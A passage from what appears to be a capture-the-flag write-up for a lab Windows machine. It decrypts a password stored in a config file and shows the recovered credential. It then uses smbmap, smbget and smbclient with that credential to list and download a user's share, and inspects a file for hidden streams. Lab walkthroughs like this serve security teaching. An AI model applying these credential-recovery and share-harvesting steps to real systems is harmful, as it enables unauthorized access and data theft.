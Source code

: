     End Function

	Public Sub Main()
		Dim plain As String
		plain = DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
		Console.WriteLine(plain)
	End Sub
End Module
{% endhighlight %}

Note that the DecryptString receive the parameter from RU_Config.xml

Running it on dotnetfiddle we get: “xRxRxPANCAK3SxRxRx”, therefore user c.smith must have this password. Trying to  list everything with this new user:

{% highlight bash %}
$ smbmap -H 10.10.10.178 -R --depth 10 -p xRxRxPANCAK3SxRxRx -u C.Smith
{% endhighlight %}

We will see some different files on his folder and the user flag. Download everything again.


{% highlight bash %}
$ smbget -R smb://10.10.10.178/Users/C.Smith -U c.smith
Password for [c.smith] connecting to //Users/10.10.10.178: 
Using workgroup WORKGROUP, user c.smith
smb://10.10.10.178/Users/C.Smith/HQK Reporting/AD Integration Module/HqkLdap.exe                                                          
smb://10.10.10.178/Users/C.Smith/HQK Reporting/Debug Mode Password.txt                               
smb://10.10.10.178/Users/C.Smith/HQK Reporting/HQK_Config_Backup.xml                              
smb://10.10.10.178/Users/C.Smith/user.txt                                
Downloaded 17.27kB in 12 seconds
{% endhighlight %}

Debug mode password.txt is empty which is weird lets try to get more information about it.

{% highlight bash %}
$ smbclient -H \\\\10.10.10.178\\Users/ -U c.smith
directory_create_or_exist: mkdir failed on directory /run/samba/msg.lock: Permission denied
Unable to initialize messaging context
Enter WORKGROUP\c.smith's password: 
Try "help" to get a list of possible commands.
smb: \> cd C.Smith
dirsmb: \C.Smith\> dir
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019
cd 
                10485247 blocks of size 4096. 6543375 blocks available
smb: \C.Smith\> cd HQK Reporting\
cd \C.Smith\HQK\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \C.Smith\> cd "HQK Reporting" 
smb: \C.Smith\HQK Reporting\> dir
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6543375 blocks available
smb: \C.Smith\HQK Reporting\> allinfo " Debug Mode Password.txt"
NT_STATUS_OBJECT_NAME_NOT_FOUND getting alt name for \C.Smith\HQK Reporting\ Debug Mode Password.txt
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT